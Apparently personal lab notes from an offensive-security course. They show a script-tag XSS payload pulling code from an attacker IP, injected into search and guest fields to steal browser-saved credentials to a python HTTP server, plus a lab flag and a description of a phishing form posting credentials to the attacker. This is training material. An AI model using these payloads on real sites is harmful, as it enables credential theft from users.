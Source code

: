 Once the file is saved and the HTTP server is running, we'll instruct the sandbox to render the exploit with the "Used stored password" checkbox checked.

Payload
```bash
<script src="http://192.168.45.236:80/xss5.js"></script>
```
Insert the payload into the search field and git `search`
![[Pasted image 20240805170612.png]]
Hitting `search` translates the script to url encoding under the `s=` variable
![[Pasted image 20240805170704.png]]
Check the `python3 http.server 80` show that the credentials attempted to be grabbed, but we dont have credentials saved from the testing perspective
![[Pasted image 20240805170831.png]]
Now rendering from the victim side, 
![[Pasted image 20240805171112.png]]
the credentials pop up in the top left.
![[Pasted image 20240805171158.png]]
after 5 seconds the credentials get populated in the `python3 http.server`
![[Pasted image 20240805171224.png]]
##### Labs
![[Pasted image 20240805174038.png]]
Starting Page
![[Pasted image 20240805171452.png]]
Right click - Inspect - Edit HTML Change guest field to accept text
![[Pasted image 20240805172446.png]]
Submit the script into the guest field
![[Pasted image 20240805172835.png]]
Empty `Guest` means it worked
![[Pasted image 20240805172932.png]]
Check `python3 -m http.server 80` and see that the test worked 
![[Pasted image 20240805173742.png]]
Now render it on the victim side
![[Pasted image 20240805173918.png]]
Check `python3 server` for flags
`OS{ShavedHeadsFTW}`
![[Pasted image 20240805173955.png]]

------------------
#### 5.1.7 Phishing Users

Given that we have full access to the HTML document, we could also rewrite the entire page to be styled however we want and include whatever HTML elements we want. This means that we could force any page to resemble the login page, but when the user submits the credentials, the submission is sent to us instead of the intended server. The redirection of the credentials is done by replacing the location of the form posts to our Kali IP.
